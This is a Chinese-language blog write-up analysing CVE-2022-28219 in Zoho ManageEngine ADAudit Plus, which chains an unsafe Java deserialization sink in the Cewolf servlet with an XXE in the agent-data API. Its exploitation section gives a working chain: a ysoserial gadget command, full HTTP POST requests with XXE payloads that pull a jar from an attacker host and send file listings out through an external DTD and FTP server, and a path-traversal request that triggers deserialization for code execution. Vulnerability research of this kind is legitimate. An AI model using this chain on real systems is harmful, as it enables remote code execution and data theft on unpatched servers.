# Zoho ManageEngine ADAudit Plus (CVE-2022-28219 )漏洞分析 - nice_0e3 - 博客园

> 原文：[`www.cnblogs.com/nice0e3/p/16742215.html`](https://www.cnblogs.com/nice0e3/p/16742215.html)

# Zoho ManageEngine ADAudit Plus (CVE-2022-28219 )漏洞分析

## 前言

看到 y4er 师傅文章分析的 zoho xxe 的一些有意思组合利用方式，学习一下

## 漏洞分析

### 反序列化

```
<servlet>
		<servlet-name>CewolfServlet</servlet-name>
		<servlet-class>de.laures.cewolf.CewolfRenderer</servlet-class>
		<init-param>
			<param-name>debug</param-name>
			<param-value>false</param-value>
		</init-param>
  <init-param>
			<param-name>storage</param-name>
			<param-value>de.laures.cewolf.storage.FileStorage</param-value>
		</init-param>
		<load-on-startup>1</load-on-startup>
	</servlet>
  <servlet-mapping>
	<servlet-name>CewolfServlet</servlet-name>
	<url-pattern>/cewolf/*</url-pattern>
</servlet-mapping> 
```

```
protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        if (this.debugged) {
            this.logRequest(request);
        }

        this.addHeaders(response);
        if (request.getParameter("state") == null && request.getParameterNames().hasMoreElements()) {
            synchronized(this.lock) {
                ++this.requestCount;
            }

            int width = 400;
            int height = 400;
            boolean removeAfterRendering = false;
            if (request.getParameter("removeAfterRendering") != null) {
                removeAfterRendering = true;
            }

            if (request.getParameter("width") != null) {
                width = Integer.parseInt(request.getParameter("width"));
            }

            if (request.getParameter("height") != null) {
                height = Integer.parseInt(request.getParameter("height"));
            }

            String imgKey = request.getParameter("img");
            if (imgKey == null) {
                this.logAndRenderException(new ServletException("no 'img' parameter provided for Cewolf servlet."), response, width, height);
            } else {
                Storage storage = this.config.getStorage();
                ChartImage chartImage = storage.getChartImage(imgKey, request); 
```

```
public ChartImage getChartImage(String id, HttpServletRequest request) {

		ChartImage res = null;

		ObjectInputStream ois = null;

		try {

			ois = new ObjectInputStream(new FileInputStream(getFileName(id)));

			res = (ChartImage)ois.readObject();

			ois.close();

		} catch(Exception ex){

			ex.printStackTrace();

		} finally {

			if(ois != null){

				try {

					ois.close();

				} catch(IOException ioex){

					ioex.printStackTrace();

				}

			}

		}

		return res;

	} 
```

通过 img 参数传递去获取 id，调用`getFileName`获取文件进行反序列化操作





```
public void init(ServletContext servletContext) throws CewolfException
	{
		basePath=servletContext.getRealPath("/");
		String folder=servletContext.getInitParameter("folder");

		if(folder==null || (folder.equalsIgnoreCase("")))
		{
			//folder="cewolf_charts"+File.separator;
            folder = "/cewolf_charts";
		}

		folder=servletContext.getRealPath(folder);
		//folder=basePath+File.separator+folder+File.separator;

		File f=new File(folder);
		if(f.isDirectory())
		{
			basePath=folder;
			startWatcher();
			return;
		}

		if(f.mkdir())
		{
			basePath=folder;
		} 
```

下面需要一个文件上传点。

### XXE

`com.adventnet.sym.adsm.auditing.webclient.ember.api.RestAPIHandler#executeAgentRequest`中



通过 url 正则，获取对应的 handle 方法进行处理

`/tabs/agentData`路由的是 `com.adventnet.sym.adsm.auditing.webclient.ember.api.agent.AgentDataHandler#receiveData`



前面获取处理一些传递的 json 数据





把 json 数据放入到事件的消息对列中

当数据返回时，即回走入到该事件处理

`com.adventnet.sym.adsm.auditing.server.EventDataAdapter.EventDispatcher#run`



获取 json 传递数据的`DomainName` 不为空则`ProcessMonitor.process`继续处理该 json 数据



json 解析事件，如果 domainname 不为空，且输入正确，走入到`ProcessMonitor.process(modData);`处理




获取 test.local 中的事件，事件内容不为空则调用`com.adventnet.sym.adsm.auditing.server.ProcessMonitor#addEventRows`处理



通过 catgId 获取事件类别监听器，这里 id 是 11，`ProcessTrackingListener`，`ProcessTrackingListener`对象接着调用`getEventRowList`方法


调用`this.parseTaskContent(row, eventTbl);`后来到 xxe 的位置



### 漏洞利用

文件上传

```
java -jar ysoserial-for-woodpecker-0.5.2.jar -g CommonsBeanutils2 -a raw_cmd:"calc" > 123.ser 
```

[`github.com/pwntester/BlockingServer`](https://github.com/pwntester/BlockingServer)

```
java BlockingServer 8089 123.ser 
```

```
POST /api/agent/tabs/agentData HTTP/1.1
Host: 172.16.108.245:8081
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: authen=open; policy=open; JSESSIONIDADAP=D66AE139BC5244CC8A7ED01CF1F3612C; adapcsrf=c2237177f55aa5e053524ac86b91bf6f9f425b933e29383377a175ee6186fd24f46c86c890f883ca57e784080295e9b52d964312c63e347a16cb390bdf95eb30; _zcsr_tmp=c2237177f55aa5e053524ac86b91bf6f9f425b933e29383377a175ee6186fd24f46c86c890f883ca57e784080295e9b52d964312c63e347a16cb390bdf95eb30
Connection: close
Content-Type: application/json
Content-Length: 314

[
    {
        "DomainName": "test.local",
        "EventCode": 4688,
        "EventType": 0,
        "TimeGenerated": 0,
        "Task Content": "<?xml version=\"1.0\" encoding=\"UTF-8\"?><!DOCTYPE foo [<!ENTITY ssrf SYSTEM \"jar:http://172.16.108.1:8089/cases.jar!/cs.txt\"> ]><foo>&ssrf;</foo>"
    }
] 
```



文件读取

[`github.com/LandGrey/xxe-ftp-server`](https://github.com/LandGrey/xxe-ftp-server)

```
python xxe-ftp-server.py 172.16.108.1 9099 2121 
```

```
POST /api/agent/tabs/agentData HTTP/1.1
Host: 172.16.108.245:8081
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: authen=open; policy=open; JSESSIONIDADAP=D66AE139BC5244CC8A7ED01CF1F3612C; adapcsrf=c2237177f55aa5e053524ac86b91bf6f9f425b933e29383377a175ee6186fd24f46c86c890f883ca57e784080295e9b52d964312c63e347a16cb390bdf95eb30; _zcsr_tmp=c2237177f55aa5e053524ac86b91bf6f9f425b933e29383377a175ee6186fd24f46c86c890f883ca57e784080295e9b52d964312c63e347a16cb390bdf95eb30
Connection: close
Content-Type: application/json
Content-Length: 384

[
    {
        "DomainName": "test.local",
        "EventCode": 4688,
        "EventType": 0,
        "TimeGenerated": 0,
        "Task Content": "<?xml version=\"1.0\" encoding=\"UTF-8\"?><!DOCTYPE data [  <!ENTITY % file SYSTEM \"file:///C:/Users/admin/AppData/Local/Temp/\">  <!ENTITY % dtd SYSTEM \"http://172.16.108.1:9099/data.dtd\"> %dtd;]><data>&send;</data>"
    }
] 
```



看到文件已经被写入进来了

反序列化

```
/cewolf/aaaa?img=/../../../../../../../../../Users/admin/AppData/Local/Temp/jar_cache9091707163659467742.tmp 
```



### 参考

[`y4er.com/posts/cve-2022-28219-zoho-manageengine-adaudit-plus-xxe-rce/#串联`](https://y4er.com/posts/cve-2022-28219-zoho-manageengine-adaudit-plus-xxe-rce/#%E4%B8%B2%E8%81%94)

[`2013.appsecusa.org/2013/wp-content/uploads/2013/12/WhatYouDidntKnowAboutXXEAttacks.pdf`](https://2013.appsecusa.org/2013/wp-content/uploads/2013/12/WhatYouDidntKnowAboutXXEAttacks.pdf)

## 结尾

看完这个漏洞后，知道 XXE 能上传文件，并且上传的文件位置与文件名并不可控。发觉以前错过了很多可利用点。可惜在高版本被修复。